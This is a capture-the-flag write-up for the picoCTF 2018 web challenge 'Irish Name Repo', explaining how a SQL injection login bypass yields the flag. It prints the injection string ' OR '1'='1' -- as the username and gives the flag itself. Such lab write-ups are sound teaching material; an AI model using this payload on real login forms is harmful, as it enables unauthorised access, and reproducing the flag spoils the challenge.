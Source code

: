 # Irish Name Repo
Points: 200

## Category
Web Exploitation

## Question
>There is a website running at http://2018shell1.picoctf.com:59464 ([link](http://2018shell1.picoctf.com:59464/)) . Do you think you can log us in? Try to see if you can login!

### Hint
>There doesn't seem to be many ways to interact with this, I wonder if the users are kept in a database?

## Solution
looking at the support section of the site, it can be seen that the site uses SQL to store data,this could mean that it is vulnerable to SQL injections

```
Cannot add name
Hi. I tried adding my favorite Irish person, Conan O'Brien. But I keep getting something called a SQL Error
That's because Conan O'Brien is American.
Admin
```

going to the login section of the site, it is seen that it accepts a username and password

```
Log In

Username: 
Password:
```

Using the username `' OR '1'='1' --`, we get the flag.

```
Logged in!
Your flag is: picoCTF{con4n_r3411y_1snt_1r1sh_d121ca0b}
```

Working solution [solve.py](solution/solve.py)

### Flag
`picoCTF{con4n_r3411y_1snt_1r1sh_d121ca0b}`
